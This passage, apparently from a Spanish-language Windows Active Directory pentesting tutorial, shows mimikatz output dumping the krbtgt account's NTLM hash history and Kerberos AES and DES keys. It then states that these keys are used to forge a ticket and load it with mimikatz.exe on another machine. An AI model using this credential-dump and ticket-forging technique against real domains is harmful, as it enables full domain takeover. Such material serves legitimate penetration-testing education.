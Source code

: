 ```r
    10  6d6b459d78e134ecdd144a5cc9c3594f
    11  edbabf4665b2e93dbdc4c323c71e8fcb
    12  7b41cae1acc9b639a14a5abb910cce4b
    13  bdd9c0a2761ca1b51372409277f13dab
    14  edbabf4665b2e93dbdc4c323c71e8fcb
    15  b0a6e558a0bebd74b74f496ad3349290
    16  b0a6e558a0bebd74b74f496ad3349290
    17  f16ec0c9ba4683cc88d38652be117508
    18  7ec4139e942a6db57993e4ace4f116f9
    19  8bbf3a395882b06837bf1f4388ee1b82
    20  ccbfb4a4dc2014be3240729310a65571
    21  cdd87e78c3c84eff4733f2b65b62f1c4
    22  cdd87e78c3c84eff4733f2b65b62f1c4
    23  54204a79a956d58b5d0d470a0a23c2d6
    24  f06350d3b4ee8a02fc36b613e5a31d17
    25  f06350d3b4ee8a02fc36b613e5a31d17
    26  c6d0f457c7cac824bff12c39bbb598da
    27  c6674b3a2e5279d3bf6fbeb8b0702e80
    28  f6c8cce0994c3a2acf337de60eaeb421
    29  6dc5694d365fae894a9e03fbdf1330c2

 * Kerberos
    Default Salt : ELC4BR4CORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : c8fb7abcf125d37a

 * Kerberos-Newer-Keys
    Default Salt : ELC4BR4CORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ae0bdc175152d4c3a92eb0cd410af41c142dc571c23e46c5919bbfa0406ac2a8
      aes128_hmac       (4096) : bb79c72e39182de9a5bd5cc220c0cb05
      des_cbc_md5       (4096) : c8fb7abcf125d37a

 * NTLM-Strong-NTOWF
    Random Value : 6a916f8e92ba295b1be3df6bcfb503f8
```

Una vez que ya tenemos estos datos podemos proceder a **construir nuestro ticket** para posteriormente cargar este ticket en otra máquina con mimikatz.exe y poder tener privilegios de acceso en el mismo.

![](/assets/images/articles/pentesting-windows2/Untitled%203.png)
